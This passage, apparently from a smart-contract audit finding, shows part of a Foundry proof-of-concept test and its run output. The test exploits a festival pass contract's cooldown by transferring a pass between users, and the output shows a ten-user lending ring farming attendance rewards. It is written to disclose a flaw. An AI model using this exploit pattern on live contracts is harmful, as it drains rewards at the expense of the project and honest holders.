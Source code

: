 ```Solidity
        
        // Bob can immediately attend performance 2 (no cooldown for Bob)
        console.log("Bob attends performance 2 immediately:");
        vm.prank(bob);
        festivalPass.attendPerformance(perf2);
        
        uint256 bobReward = beatToken.balanceOf(bob);
        console.log("Bob reward:", bobReward);
        console.log("Bob lastCheckIn:", festivalPass.lastCheckIn(bob));
        
        console.log("\n=== COOLDOWN BYPASS RESULTS ===");
        console.log("Alice could not attend due to cooldown");
        console.log("Bob successfully attended immediately after transfer");
        console.log("Cooldown mechanism bypassed through pass lending");
        
        assertEq(bobReward, EXPECTED_VIP_REWARD, "Bob should successfully earn rewards");
        assertEq(festivalPass.lastCheckIn(bob), block.timestamp, "Bob's check-in should be recorded");
    }
}
```

```Solidity
forge test --match-contract PassLendingExploitPoC -vv
[⠰] Compiling...
[⠃] Compiling 1 files with Solc 0.8.25
[⠊] Solc 0.8.25 finished in 442.56ms
Compiler run successful!

Ran 3 tests for test/PassLendingExploit.t.sol:PassLendingExploitPoC
[PASS] testCooldownBypassThroughLending() (gas: 473221)
Logs:
  === COOLDOWN BYPASS THROUGH PASS LENDING ===

  Alice attends performance 1
  Alice lastCheckIn: 5401

Alice tries performance 2 immediately:
   Cooldown protection working

Alice transfers pass to Bob to bypass cooldown
  Bob attends performance 2 immediately:
  Bob reward: 200000000000000000000
  Bob lastCheckIn: 5401

=== COOLDOWN BYPASS RESULTS ===
  Alice could not attend due to cooldown
  Bob successfully attended immediately after transfer
  Cooldown mechanism bypassed through pass lending

[PASS] testLargeScalePassLendingRing() (gas: 1794585)
Logs:
  === LARGE-SCALE PASS LENDING RING ===

  Lending ring size: 10
  BACKSTAGE pass multiplier: 3
  Expected reward per attendance: 300000000000000000000

--- Exploiting Performance 1 ---
  User 0 reward: 300000000000000000000
  User 1 reward: 300000000000000000000
  User 2 reward: 300000000000000000000
  User 3 reward: 300000000000000000000
  User 4 reward: 300000000000000000000
```